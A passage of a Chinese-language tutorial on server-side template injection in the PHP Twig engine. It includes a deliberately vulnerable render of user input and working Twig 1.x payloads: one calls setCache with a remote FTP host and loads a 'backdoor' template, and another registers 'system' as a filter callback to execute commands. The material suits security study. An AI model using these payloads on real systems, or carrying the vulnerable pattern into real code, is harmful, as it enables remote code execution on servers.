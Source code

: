 ```php
<?php
require_once __DIR__.'/vendor/autoload.php';

$loader = new \Twig\Loader\ArrayLoader([
    'index' => 'Hello {{ name }}!',
]);
$twig = new \Twig\Environment($loader);

echo $twig->render('index', ['name' => 'whoami']);
```

> 上述第一段代码中 createTemplate 时注入了 `$_GET['name']`，此时就会引发模板注入，而第二段代码则不会，因为模板引擎解析的是字符串常量中的 `{{name}}`，而不是动态拼接的 `$_GET["name"]`

## Twig 1.x
> 测试代码如下

```php
<?php

include __DIR__.'/vendor/twig/twig/lib/Twig/Autoloader.php';
Twig_Autoloader::register();

$loader = new Twig_Loader_String();
$twig = new Twig_Environment($loader);
echo $twig->render($_GET['name']);
?>
```

> 在 Twig 1.x 中存在三个全局变量
```php
_self：引用当前模板的实例
_context：引用当前上下文
_charset：引用当前字符集
```

> 对应的代码是

```php
protected $specialVars = [
        '_self' => '$this',
        '_context' => '$context',
        '_charset' => '$this->env->getCharset()',
    ];
```
> 这里主要就是利用 `_self` 变量，它会返回当前 `\Twig\Template` 实例并提供了指向 `Twig_Environment` 的 `env` 属性，这样就可以继续调用 `Twig_Environment` 中的其他方法从而进行 SSTI
> 例如以下 Payload 可以调用 `setCache` 方法改变 Twig 加载 PHP 文件的路径，在 `allow_url_include` 开启的情况下可以通过改变路径实现远程文件包含

```php
{{_self.env.setCache("ftp://attackTarget:1234")}}{{_self.env.loadTemplate("backdoor")}}
```

> 还有 getFilter 方法中的 `call_user_func` 方法，Payload：`{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("calc.exe")}}` (但是在 Twig2.x 及 Twig3.x 以后 `_self` 的作用发生了变化，只能返回当前实例名字符串，故该 Payload 只对 Twig1.x 适用)
